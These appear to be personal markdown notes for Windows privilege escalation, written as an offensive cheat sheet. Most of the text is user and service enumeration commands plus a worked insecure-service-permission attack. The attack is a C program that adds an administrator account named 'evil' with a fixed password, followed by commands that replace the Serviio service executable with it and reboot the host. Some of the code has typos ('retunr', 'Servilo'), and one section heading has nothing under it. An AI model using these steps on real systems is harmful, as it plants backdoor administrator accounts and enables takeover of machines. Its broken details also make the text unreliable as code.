  * Users of system and their groups
   * net user
   * net user <user>
      *Password required
      *groups
  * whoami /groups
 
 * Insecure File Permissions:
   ##### tasklist /SVC > process.txt
     or with powershell
   ##### Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
   
   ##### icacls "\<path>\\<file.exe>"
 
   * if full access the User can modify it.
   
   Custom exploit:
   #include <stdlib.h>
   
   int main (){
     int i;
     i = system ("net user evil Ev!lpass /add");
     i = system ("net localgroup administrators evil /add");
     
     retunr 0;
    }
    
    Compile from windows:
    i686-w64-mingw32-gcc adduser.c -o adduser.exe
 
     move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
     move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
     
     dir "C:\Program Files\Serviio\bin\"
     
     net stop Servilo
     
     if access denied try:wmic service where caption="Serviio" get name, caption, state, startmode
       -> if Auto atrribute inside then will auto execute after reboot.
       
     whoami /priv
     if SeShutdownPrivilege then we can restart machine:
       * shutdown /r /t 0 
       
      net localgroup Administrators
      
* Unqoted Service Path:
   
 
 
* Enumerating World Writable Directories:
   ##### accesschk.exe -uws "Everyone" "C:\Program Files"
   
 * Applications installed versions:
   ###### wmic product get name, version, vendor
   
